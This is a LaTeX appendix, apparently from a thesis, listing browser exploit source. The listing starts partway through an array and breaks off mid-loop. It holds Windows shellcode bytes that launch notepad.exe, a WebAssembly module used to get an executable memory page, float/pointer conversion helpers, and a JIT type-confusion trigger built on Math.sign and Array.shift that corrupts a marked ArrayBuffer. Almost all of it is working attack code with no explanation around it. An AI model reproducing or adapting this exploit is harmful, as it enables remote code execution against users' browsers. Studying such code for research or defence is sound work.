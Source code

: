 \documentclass[a4paper,twoside,12pt]{book}
\begin{document}
\begin{appendices}
\begin{lstlisting}
	0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
    0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 
	0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 
	0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 
	0x52, 0xFF, 0xE0, 0x58, 0x41, 0x59, 0x5A, 0x48, 0x8B, 
	0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 
	0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 
	0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 
	0x8B, 0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 
	0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF, 0xD5, 
	0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 
	0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 
	0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x6E, 
	0x6F, 0x74, 0x65, 0x70, 0x61, 0x64, 0x2E, 0x65, 0x78, 
	0x65, 0x00];
    var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 
	0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 
	130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 
	0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 
	6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 
	0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 
	97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 
	132, 128, 128, 128, 0, 0, 65, 42, 11]);
    var wasmModule = new WebAssembly.Module(wasmCode);
    var wasmInstance = new WebAssembly.Instance(wasmModule);
    var main = wasmInstance.exports.main;
    var bf = new ArrayBuffer(8);
    var bfView = new DataView(bf);
    function fLow(f) {
        bfView.setFloat64(0, f, true);
        return (bfView.getUint32(0, true));
    }
    function fHi(f) {
        bfView.setFloat64(0, f, true);
        return (bfView.getUint32(4, true))
    }
    function i2f(low, hi) {
        bfView.setUint32(0, low, true);
        bfView.setUint32(4, hi, true);
        return bfView.getFloat64(0, true);
    }
    function f2big(f) {
        bfView.setFloat64(0, f, true);
        return bfView.getBigUint64(0, true);
    }
    function big2f(b) {
        bfView.setBigUint64(0, b, true);
        return bfView.getFloat64(0, true);
    }
    class LeakArrayBuffer extends ArrayBuffer {
        constructor(size) {
            super(size);
            this.slot = 0xb33f;
        }
    }
    function foo(a) {
        let x = -1;
        if (a) x = 0xFFFFFFFF;
        var arr = new Array(Math.sign(0 - Math.max(0, x, -1)));
        arr.shift();
        let local_arr = Array(2);
        local_arr[0] = 5.1;//4014666666666666
        let buff = new LeakArrayBuffer(0x1000);//byteLength idx=8
        arr[0] = 0x1122;
        return [arr, local_arr, buff];
    }
    for (var i = 0; i < 0x10000; ++i)

\end{lstlisting}
\end{appendices}
\end{document}
